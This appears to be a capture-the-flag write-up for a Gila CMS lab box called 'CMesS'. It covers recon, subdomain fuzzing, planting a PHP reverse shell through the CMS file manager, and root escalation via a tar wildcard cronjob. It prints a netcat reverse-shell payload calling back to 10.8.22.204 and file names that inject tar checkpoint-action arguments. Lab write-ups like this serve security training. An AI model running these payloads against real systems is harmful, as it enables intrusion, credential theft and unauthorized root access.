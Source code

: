 # [cd ../](../index.md)
# CMesS
> Can you root this Gila CMS box?  
> Please add `10.10.28.87 cmess.thm` to **/etc/hosts**

# Start

## Recon

### Nmap
```
nmap -A -T4 -p- cmess.thm
```
Open ports are: 
- 22 - OpenSSH 7.2p2 
- 80 - Apache httpd 2.4.18 

### Website
![web](web.png)  
There is nothing interesting here. ):

### Dirsearch
![dsearch](dsearch.png)  
We have a login on `/admin` but we dont have creds!

### Subdomain bruteforcing
```
ffuf -c -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fl 108
```
We need the `-fl 108` to avoid junk.  
![ffuf](ffuf.png)  
We got only one subdomain `<subdomain>.cmess.thm`  
![dis gon be gud](https://media.giphy.com/media/2awcOE20shEQg/giphy.gif)  
- Add `<subdomain>.cmess.thm` to **/etc/hosts**  
  ![hosts](hosts.png)

## Admin panel
If we go there we can see a user and a password!  
![pass](pass.png)  
Use these creds in `cmess.thm/admin`  
![login](login.png)  
And now we have an admin panel!

## Getting a lowpriv shell
Go to ***Content***->***File Manager***  
Open the index.php and replace the content with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
![revshell](revshell.png)  
Now just go to `http://cmess.thm` while our nc is listening and BOOM we got a revshell as **www-data** !!

## Privesc
### Linenum
An interesting cronjob is running
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
We got `/opt/.password.bak` at the end of the linenum

```
cat /opt/.password.bak
```
And we got *andre's backup password*  
Now just ssh in as andre with the new creds  
And we got the ***SHELL*** as ***andre***  
Btw we got the user flag too from `/home/andre/user.txt`

## Getting ROOT
### Linenum again :D
We see the cronjob again and nothing more  
We have to do stg with it  
We need the [Wildcard exploit](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)  

### Creating the exploit
Lets make a reverse nc with msfvenom!
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.22.204 lport=31337 R
```
And we got the payload:
```
mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj
```

### Exploiting
```
echo "mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Now we just have to wait a lilbit  
![gotroot](gotroot.png)

# Got root and got the flag from `/root/root.txt`
![dab](https://media.giphy.com/media/j9GaOL1MGRQZSfcdCn/giphy.gif)
